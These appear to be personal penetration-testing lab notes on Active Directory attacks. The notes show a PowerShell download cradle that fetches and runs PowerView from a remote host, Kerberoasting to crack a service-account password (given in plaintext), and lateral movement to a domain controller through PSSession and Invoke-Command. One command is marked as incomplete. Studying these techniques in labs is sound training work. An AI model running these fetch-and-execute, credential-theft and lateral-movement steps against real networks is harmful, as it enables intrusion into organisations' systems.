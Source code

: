 Even just the command `IEX (New-Object Net.WebClient).DownloadString('http://192.168.119.122:8080/PowerView.ps1')` will bring it in memory. 

Once it is imported we can start using PowerView for `Invoke-Kerberoast`. 

`(Invoke-Kerberoast -OutputFormat).Hash` <- This command missing something

Once we get the cracked password, we can do a `runas.exe /user:CORP\sql_service powershell` with the password and we have an elevated shell. 

Once on the new powershell window (password Qwerty09!) as user `corp\sql_service`, we import PowerView again and start enumerating

```Bash
Get-DomainComputer | select name
```

We want to see if we are local admin on the domain server, so we use PowerSHell remoting for a "PSSession" on the "DC01" host. 

```Bash
Enter-PSSession -ComputerName DC01

whoami /privs

net user
```

We can also just run commands against a different box, not requiring us to log in to the target. 

```Bash
PS C:\Windows\system32> Invoke-Command -ComputerName DC01 -Credential CORP\SQL_Service -ScriptBlock {whoami ; hostname}
corp\sql_service
DC01
PS C:\Windows\system32>
```

We can ever store it as a variable and runs commands against it.

```Bash
$session1 = New-PSSession -ComputerName DC01 -Credential CORP\SQL_Service
Invoke-Command -Session $session1 -ScriptBlock {hostname}
```

Or another

```
$session1 = New-PSSession -ComputerName DC01 -Credential CORP\sql_servi
ce

Invoke-Command -Session $session1 -FilePath .\PowerView.ps1

Invoke-Command -Session $session1 -ScriptBlock {Get-DomainUser}
```

**All of these commands above for PSSession are running powershell over SMB for PSSession**

Started playing games, they started working on pass the hash #passthehash #lateralmovement
